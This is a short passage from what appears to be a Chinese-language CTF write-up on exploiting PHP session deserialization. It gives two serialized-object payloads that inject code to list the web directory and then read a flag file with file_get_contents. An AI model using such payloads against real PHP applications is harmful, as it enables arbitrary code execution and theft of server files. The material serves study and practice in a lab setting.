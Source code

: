 ![null](1545276025699.png)

目录/opt/lampp/htdocs
`|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}`继续读

![null](1545276188010.png)

然后用`file_get_contents`函数读flag
`|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:88:\"print_r(file_get_contents(\"/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php\"));\";}`

![null](1545276523785.png)
